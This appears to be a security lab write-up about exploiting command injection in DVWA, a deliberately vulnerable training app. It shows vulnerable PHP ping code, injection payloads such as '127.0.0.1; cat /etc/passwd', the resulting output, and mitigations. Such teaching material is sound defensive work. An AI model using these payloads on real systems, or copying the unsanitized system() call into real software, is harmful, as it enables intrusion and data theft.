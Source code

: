 # Attack Simulation 5 – Command Injection in DVWA (Realistic OS Command Execution)

## 🎯 Objective

Simulate a **Command Injection** vulnerability using DVWA, and explore how unsanitized user input can lead to arbitrary command execution on the target operating system. This is a **critical-level server-side vulnerability** and often results in full system compromise.

---

## 💡 What is Command Injection?

**Command Injection** occurs when a web application passes **user input into a system shell command** without proper validation or sanitization. If the input is not strictly controlled, attackers can **inject additional OS commands** and execute them with the same privileges as the running application (usually `www-data`, but sometimes `root`).

---

## 🔍 Real-World Scenarios (How This Happens in Actual Systems)

While DVWA presents a simple "ping this IP" form, this same vulnerability appears in **real-world applications**, often in:

| Scenario | Description |
|----------|-------------|
| 🛠 Admin dashboards | Internal tools that ping hosts, reboot services, or run diagnostics using shell |
| 📁 File processing apps | Unsanitized filenames used in commands like `zip`, `convert`, `ffmpeg`, etc. |
| 🌐 IoT devices / routers | Web interfaces allowing commands like `ping`, `traceroute`, `dnslookup` |
| 🖼️ Image or PDF converters | Unsafe use of system commands with user-uploaded input |
| 🤖 DevOps tools / scripts | Webhooks or scripts that use `system()`, `exec()`, or backticks with input |

> ⚠ Example vulnerable code:
> ```php
> $host = $_GET['ip'];
> system("ping -c 1 $host");
> ```

If an attacker enters:
```
127.0.0.1; whoami
```

The system runs:
```bash
ping -c 1 127.0.0.1; whoami
```

And executes both commands — that’s command injection.

---

## ✅ Steps Taken

### 1️⃣ Initial Test (Valid Input)
Submitted:
```
127.0.0.1
```
✅ Output showed ping results:
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data...
```

![Ping Works](../../screenshots/attack-simulation-5/Ping.png)

*Figure 1: Working of Ping*

This confirms that the application is running a backend `ping` command.

---

### 2️⃣ Command Injection (Simple Proof)

#### Payload:
```
127.0.0.1; whoami
```

#### Result:
```
www-data
```

![User name](../../screenshots/attack-simulation-5/whoami.png)

*Figure 2: Username*

This means your command was executed on the target OS, leaking the web server's current user.

---

### 3️⃣ More Payloads Tried

#### OS Info:
```
127.0.0.1 && uname -a
```

![OS Information](../../screenshots/attack-simulation-5/uname.png)

*Figure 3: OS Information*

✅ Printed Linux kernel, architecture, and version

#### File System Read:
```
127.0.0.1; cat /etc/passwd
```

![File Reading](../../screenshots/attack-simulation-5/File%20reading.png)

*Figure 4: How to read a File via command Injection*

✅ Dumped system accounts, proving file access

---

## 🔬 Why This Works

The app likely runs:
```php
system("ping -c 1 " . $_GET['ip']);
```

When no input sanitization is applied, any shell metacharacter like `;`, `&&`, or `|` allows attackers to **chain arbitrary commands** onto the original one.

These metacharacters signal to the shell:
- `;` → run both commands sequentially
- `&&` → run second only if first succeeds
- `|` → pipe output of first into second

Because `$_GET['ip']` is not escaped, injected commands become part of the system call.

---

## ✅ Key Commands Used (and Their Purpose)

| Command | Description |
|---------|-------------|
| `127.0.0.1; whoami` | Injects and runs `whoami` after ping |
| `127.0.0.1 && uname -a` | Shows kernel version and OS info |
| `127.0.0.1; cat /etc/passwd` | Dumps system user file |
| `127.0.0.1 && id` | Displays UID, GID, and groups |
| `127.0.0.1 && hostname` | Gets system hostname |

---

## 🛡 Impact

- Execute system-level commands
- Steal sensitive data
- Enumerate system config and users
- Download backdoors
- Establish reverse shells (RCE escalation)

If an attacker gets command injection and the app is running as `root`, it’s **game over**.

---

## 🔐 Mitigation (Best Practices)

| Defense | Why It Works |
|---------|--------------|
| Input validation | Only allow valid IPs (regex) |
| Parameterized functions | Use `escapeshellarg()` or equivalent |
| Avoid shell commands | Use native code/APIs instead of `system()` |
| Least privilege | Web server should never run as root |

---

## 📌 Conclusion

This simulation successfully demonstrates a **real-world applicable** command injection attack. By injecting OS commands through an unsanitized input field in DVWA, we proved how attackers can:

- Execute commands
- Access system files
- Gain foothold for further exploitation

> ⚠️ Command Injection is classified as **CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection')** and is one of the most severe vulnerabilities in web apps.

**Simulation 5 complete and confirmed. ✅**

